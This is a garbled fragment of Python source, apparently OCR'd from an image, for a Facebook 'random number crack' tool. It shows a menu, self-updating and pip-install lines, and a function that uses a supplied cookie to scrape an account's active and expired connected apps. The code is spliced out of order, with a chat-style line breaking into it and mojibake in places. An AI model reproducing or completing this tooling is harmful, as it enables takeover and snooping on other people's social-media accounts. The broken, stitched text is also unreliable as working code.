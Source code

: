 
def o():
    os.system('clear')
    jalan(logo)
    jalan('\33[37;41m\t RANDOM NUMBER CRACK\33[0;m')
    print('')
    jalan('\x1b[1;32m [1]\x1b[1;33m RANDOM CRACK ')
    jalan('\x1b[1;32m [2] \x1b[1;32mCONTACT ME ON FACEBOOK')
    jalan(' \x1b[1;32m[3] \x1b[1;32mSUBSCRIBE MY CHANNEL')
    jalan(' \x1b[1;32m[4] \x1b[1;32mFOLLOW FACEBOOK PAGE')
    jalan(' \x1b[1;32m[00] \x1b[1;31mEXIT')
    opt = input('\n   \x1b[1;32m CHOOSE OPTION >>> ')
    if opt == '1':
        i()
    if opt == '2':
        os.system('xdg-open https://www.facebook.com/hx004.tamim02')
        return None
    if opt == '3':
        os.system('xdg-open https://www.youtube.com/channel/UCsrHABXmcmJeXYkJwuKHSGg')
        return None
    if opt == '4':
        os.system('xdg-open https://www.facebook.com/montasirtamim06')
        
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')

def cek_apk(session,coki):
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))

> Rifat 👀✌🏻:
else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â˜† Your Active Apps â˜†     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else: